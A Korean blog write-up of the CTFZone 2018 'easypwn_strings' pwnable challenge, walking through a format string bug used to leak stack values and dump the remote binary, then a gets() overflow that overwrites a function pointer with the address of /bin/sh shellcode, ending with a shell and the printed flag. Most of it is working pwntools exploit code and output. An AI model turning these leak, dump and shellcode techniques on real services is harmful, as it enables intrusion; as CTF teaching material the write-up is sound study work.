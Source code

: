 ```yaml
---
layout: post
title: "[CTFZone 2018] easypwn_strings Write-up"
image: /img/ctfzone_2018.png
tags: [CTF, write-up, pwnable]
---
```


## 요약
`pwnable` `FSB`

---
### Vuln

> nc pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one 1234

```
Let's choose string operation!
	1. StrLen
	2. SubStrRemove
	3. StrRemoveLastSymbols
```
1번 메뉴를 선택하고 문자열을 입력하면 문자열의 길이가 출력되고, 3번 메뉴를 선택하고 문자열과 숫자를 입력하면 해당 문자열의 뒤에서 입력한 숫자 만큼을 잘라서 출력해준다. 2번 메뉴는 구현되어 있지 않았다.
```
You choise - 3
	Use str int
	good choise
	Set string:
%x
	Set number:
0
	Delete 0 ending symbols
	Result:
ff906700
```
3번 메뉴에서 문자열을 출력할 때 `포맷 스트링 버그 (FSB)` 가 발생한다.
<br><br><br>

### Solve
포맷 스트링 버그를 이용해서 스택에 있는 값들을 출력한다.
```python
from pwn import *

for j in range(0, 20):
        r = remote('pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one', 1234)

        r.recvuntil('StrRemoveLastSymbols')
        r.recvuntil('\n')
        r.sendline('3')
        r.recvuntil(':')
        r.recvuntil('\n')

        test = ''
        for i in range(j*20,j*20+20):
                test += '%%%d$p.' % i

        print test
        r.sendline(test)
        r.recvuntil(':')
        r.sendline('0')
        r.recvuntil(':')
        r.recvuntil('\n')
        d = r.recvuntil('\n')
        print d
```
```
[+] Opening connection to pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one on port 1234: Done
%200$p.%201$p.%202$p.%203$p.%204$p.%205$p.%206$p.%207$p.%208$p.%209$p.%210$p.%211$p.%212$p.%213$p.%214$p.%215$p.%216$p.%217$p.%218$p.%219$p.
0x80496d4.0xf77b7000.0xffeac818.0x8048e07.0x1.0xffeac8c4.0x3.0x33.0xf77b73dc.0xffeac830.(nil).0xf761d637.0xf77b7000.0xf77b7000.(nil).0xf761d637.0x1.0xffeac8c4.0xffeac8cc.(nil).
```
출력 된 값들을 살펴보면 0x80496d4 나 0x8048e07 과 같이 코드 영역의 주소로 보이는 값들을 발견할 수 있었고, 이를 토대로 <span style="color:#cf3030">0x8048000</span> 을 <span style="color:#cf3030">base address</span> 로 설정하여 바이너리 덤프를 시도했다.
<br>
그 결과는 다음과 같다.
```
0000000: 0045 4c46 0101 0100 0000 0000 0000 0000  .ELF............
0000010: 0200 0300 0100 0000 2086 0408 3400 0000  ........ ...4...
0000020: 6c3b 0000 0000 0000 3400 2000 0700 2800  l;......4. ...(.
0000030: 2000 1d00 0600 0000 3400 0000 3480 0408   .......4...4...
0000040: 3480 0408 e000 0000 e000 0000 0500 0000  4...............
0000050: 0400 0000 0300 0000 1401 0000 1481 0408  ................
...
```
ELF 시그니쳐로 보이는 `00(7F)45 4c46` 로 시작된다. 이렇게 쭉 덤프를 뜨면 되는데 중간에 null 바이트가 많아서 너무 오래걸린다. ELF 헤더 중 0x18 오프셋 부분을 보면 <span style="color:#cf3030">0x08048620</span> 이라는 값이 쓰여있는데 이 값이 <span style="color:#cf3030">엔트리 포인트</span>의 메모리 주소이다.<br>
이 주소를 시작으로 코드 섹션만 덤프 떠올 수 있다.
```python
from pwn import *

def conn():
        return remote('pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one', 1234)

def dump(adr,frmt='p'):
        r.recvuntil('StrRemoveLastSymbols')
        r.recvuntil('\n')
        r.sendline('3')
        r.recvuntil(':')
        r.recvuntil('\n')

        leak_part = "|%19${}|".format(frmt)
        out = leak_part.ljust(4*10,"A")+"EOF_"+p32(adr)
        r.sendline(out)
        r.sendline('0')
        r.recvuntil('Result:')
        return r.recvuntil("|A")[:-2].split("|")[1]

        start_addr = 0x8048620

        while True:
                try:
                        fd = open("dumped_file","a")
                        r = conn()
                        data = dump(start_addr,'s')
                        print "|0x%08x|%s|" % (start_addr,data)
                        if data == "(null)" or data == "":
                                fd.write("\x00")
                                start_addr += 1
                        else:
                                fd.write(data+"\x00")
                                start_addr += len(data)+1
                        fd.close()
                except:
                        print "[!] execption"
                        break
```
<br>

<center><img src="/img/ctfzone_easypwn_1.PNG" class="effect"></center>

덤프 뜬 바이너리를 IDA로 열어보면 `1, 2, 3` 메뉴 외에 `X, T, S` 라는 메뉴가 있는 것을 확인 할 수 있다. 하나씩 사용해보면 되는데 그 중에서도 `T` 메뉴를 사용하면 바이너리와 라이브러리를 다운 받을 수 있는 링크를 알려준다.. 개꿀
```
Let's choose string operation!
	1. StrLen
	2. SubStrRemove
	3. StrRemoveLastSymbols
	T
You choise - T
	Cheat ^^
	Are you surprised?? (y or n)
y
https://ctf.bi.zone/files/babypwn
https://ctf.bi.zone/files/babylibc
```
<br>

이제 IDA로 다시 분석!

<img src="/img/ctfzone_easypwn_2.PNG" class="effect">

처음엔 `S` 를 수상하게 보고 포맷 스트링 버그를 이용해서 0x80493E0 의 값을 조작하려고 했지만 메뉴 하나를 실행시키면 프로그램이 끝나는 구조라서 그럴 수 없었다. 대신 `X` 혹은 `T` 메뉴를 사용 했을 시 `gets()` 함수를 통해서 `overflow` 가 발생한다. 0x80492E0 에 값을 쓸 수 있는데, 그 뒤쪽에 있는 0x80493E0 이 <span style="color:#cf3030">함수 포인터</span>로 사용된다. 0x80492E0 에 쉘 코드를 올리고 overflow 를 발생시켜 0x80493E0 을 쉘 코드의 주소로 바꿔주면 끝! (rwx 권한이 있었다)
<br>

```python
from pwn import *

def conn():
	return remote('pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one', 1234)

shellcode="\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

r = conn()
r.sendline("T")
r.sendline(("y"+shellcode).ljust(256,"\x90")+p32(0x80492e0+1))

r.interactive()

```
```
Let's choose string operation!
    1. StrLen
    2. SubStrRemove
    3. StrRemoveLastSymbols
 You choise - T
    Cheat ^^
    Are you surprised?? (y or n)
$ ls
flag.txt
main.c
strings
strings.sh
$ cat flag.txt
ctfzone{e4$Y_pVVn_$Tr1№6_Fu№C}
```
ctfzone{e4$Y_pVVn_$Tr1№6_Fu№C}
<br>

### Ref
https://www.youtube.com/watch?v=XuzuFUGuQv0
https://ko.wikipedia.org/wiki/ELF_%ED%8C%8C%EC%9D%BC_%ED%98%95%EC%8B%9D
